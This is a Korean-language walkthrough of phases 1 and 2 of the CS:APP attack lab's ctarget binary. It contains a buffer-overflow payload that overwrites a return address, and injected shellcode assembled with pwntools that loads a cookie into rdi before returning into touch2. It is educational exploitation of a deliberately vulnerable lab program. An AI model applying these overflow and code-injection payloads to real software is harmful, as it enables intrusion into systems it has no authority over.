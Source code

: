 전달되는 data의 hexadecimal value는 다음과 같다.

```text
4141414141414141	// 0x18 byte padding of buffer
4141414141414141
4141414141414141
d616400000000000	// Return Address : Address of touch_1
```



## Phase 2

In `touch2` of `ctarget`:

```assembly
gef➤  disas touch2
Dump of assembler code for function touch2:
   0x0000000000401702 <+0>:     sub    rsp,0x8
   0x0000000000401706 <+4>:     mov    esi,edi
   0x0000000000401708 <+6>:     mov    DWORD PTR [rip+0x202dea],0x2        # 0x6044fc <vlevel>
   0x0000000000401712 <+16>:    cmp    edi,DWORD PTR [rip+0x202dec]        # 0x604504 <cookie>
   0x0000000000401718 <+22>:    jne    0x401735 <touch2+51>
   0x000000000040171a <+24>:    mov    edi,0x402e60
   0x000000000040171f <+29>:    mov    eax,0x0
   0x0000000000401724 <+34>:    call   0x400c80 <printf@plt>
   0x0000000000401729 <+39>:    mov    edi,0x2
   0x000000000040172e <+44>:    call   0x401ae9 <validate>
   0x0000000000401733 <+49>:    jmp    0x40174e <touch2+76>
   0x0000000000401735 <+51>:    mov    edi,0x402e88
   0x000000000040173a <+56>:    mov    eax,0x0
   0x000000000040173f <+61>:    call   0x400c80 <printf@plt>
   0x0000000000401744 <+66>:    mov    edi,0x2
   0x0000000000401749 <+71>:    call   0x401b9b <fail>
   0x000000000040174e <+76>:    mov    edi,0x0
   0x0000000000401753 <+81>:    call   0x400df0 <exit@plt>
End of assembler dump.
```

`0x0000000000401712 <+16>:    cmp    edi,DWORD PTR [rip+0x202dec]        # 0x604504 <cookie>`에서 cookie를 비교한다.  `cookie`를 `edi`에 넣을 수 있는 코드가 필요하게 된다. 이후, `touch_2`의 주소를 stack에 넣고, 반환되는 과정까지 모두 작성하여 Exploit을 진행해야 한다. 따라서, 코드는 다음과 같아야 한다.

```assembly
mov rdi, [COOKIE]			// cookie 값을 rdi에 옮긴다.
push 0xdeadbeef <touch_2>	// 이후 stack에 touch_2의 주소를 삽입한다.
ret							// pop rip; jmp rip;를 통해 touch_2로 control flow를 바꾼다.
```

로컬 Pwntools의 `asm`을 사용하여 코드를 만들었다.

```py
>>> TOUCH_2_ADDR = 0x401702
>>> asm(rf"""mov rdi, {COOKIE}; push {TOUCH_2_ADDR}; ret;""", arch='amd64', os='linux')
b"\x48\xC7\xC7\xC2\x33\xB9\x6E\x68\x02\x17\x40\x00\xC3"
```
